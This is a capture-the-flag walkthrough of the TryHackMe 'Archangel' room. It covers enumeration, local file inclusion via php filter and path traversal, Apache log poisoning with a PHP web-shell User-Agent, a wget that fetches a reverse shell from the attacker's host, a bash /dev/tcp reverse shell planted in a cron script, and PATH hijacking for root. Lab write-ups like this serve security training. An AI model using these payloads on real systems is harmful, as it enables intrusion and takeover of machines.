 # [Archangel CTF}(https://tryhackme.com/room/archangel)
> Darshan Patel

## Overview

| Tables | Description |
| ------ | ----------- |
| Challenge Name | Archangel |
| Difficulty | Easy |
| Tags | security, lfi, boot2root, priv-esc|


---

```bash
export IP=10.10.62.137
```

---
## Index
- [Enumeration](#enumeration)
- [Gaining access](#getting-access-to-the-machine)
- [PrivEsc](#escalating-priviledges)
---

### Enumeration

```bash
$ nmap -sC -sV -v $IP -oN nmap/initial.nmap
$ nmap -p- $IP -T4 -oN nmap/all_ports.nmap
```

Ports:

```
22 ssh
80 http
```

Since we have a website we can explore, we can use gobuster to enumerate the pages.

```bash
$ gobuster dir -t 64 -u $IP -w ~/wordlists/website_dir/directory-list-2.3-medium.txt -x .txt,.php,.jpg,.png,.html -o gobuster/dir_med.txt
```

Exploring the site, we notice that it has a hostname associated with it `mafialive.thm` which we can append to our `/etc/hosts` and accessing the site again from `mafialive.thm` shows us a development website.

Running gobuster _again_ on `mafialive.thm` we discover a `test.php` which appears to be asking for a LFI exploit.

![LFI](./assets/LFI.png)

![test page](./assets/test_php.png)

First we try checking `/etc/passwd` which is restricted, however, using php filter with b64, we can bypass this

```
http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php
```

![test php code](./assets/test_php_code.png)

And decrypt this to get the second flag!

Now looking at the php source code, we can exploit it by using `..//..` or `.././..` to navigate through the file directories (and cheekily nab the user.txt flag since we know what homes exists from `/etc/passwd`)

---

### Getting access to the machine

Now we have to look into getting a reverse shell onto the machine.
Now admittedly, I did get stuck here and used the hint, which points to some sort of poisoning. Googling around for hints, I realised it was referring to apache2 log poisioning.
First we check we can access the logs from here

`http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././../var/log/apache2/access.log`

And since we can, we can now execute arbitary commands through it. Enabling us to create a reverse-shell by manipulating our request headers in BurpSuite (or using curl but BurpSuite lets us repeat requests easily in case we make a mistake)

Modifying our `User-Agent` to `<?php system($_GET['cmd']); ?>` and adding `&cmd` to our request

~~~
GET /test.php?view=/var/www/html/development_testing/.././.././.././../var/log/apache2/access.log&cmd=whoami
~~~

And when we access the site, we can see appended to the end of our log, the results of our command `www-data`

Now we could create a reverse using this but it feels a bit _clunky_, so instead, what'll we'll do is upload a php reverse shell (assuming its a linux machine).

Constructing our request
Our side:

```bash
$ (cd ~/reverse_shells/php; python3 -m http.server 8888) || netcat -lvnp 9999
```

~~~
GET /test.php?view=/var/www/html/development_testing/.././.././.././../var/log/apache2/access.log&cmd=wget%20http://<<IP>>:<<port>>/revshell.php HTTP/1.1
Host: mafialive.thm
User-Agent: <?php system($_GET['cmd']); ?>
~~~

Now we can access the reverse shell from `http://mafialive.thm/revshell.php`

---

### Escalating Priviledges

Now that we have access as `www-data` we can enumerate the system to escalate priviledges. In order to speed this up, I also put linpeas onto the shell and run it.

I notice a file running in the crontab, which we could also edit, running by another use `archangel`. Modifying this file to create a new reverse-shell by adding this code:

![cronjob](./assets/cronjob.png)

```bash
$ bash -i >& /dev/tcp/IP/8888 0>&1
```

I noticed other write-ups created an ssh key for ease-of-access but I prefer this since it leaves less of a trace.

Now that we have access to more files, I notice a strange `backup` file owned by root but executable by anyone.

![backup](./assets/backup.png)

Running strings through the file, we notice something strange:

![relative path](./assets/cp_relative.png)

It is `PATH` exploitation time!

```bash
$ export PATH="$(pwd):$PATH"
```

And we can create a `cp` file which will give us root access

```bash
#!/bin/bash
/bin/bash -i
```

Remember to make it executable

```bash
$ chmod +x cp
$ ./backup
```

![PATH](./assets/path_exploit.png)

And we've _**completed**_ this room!

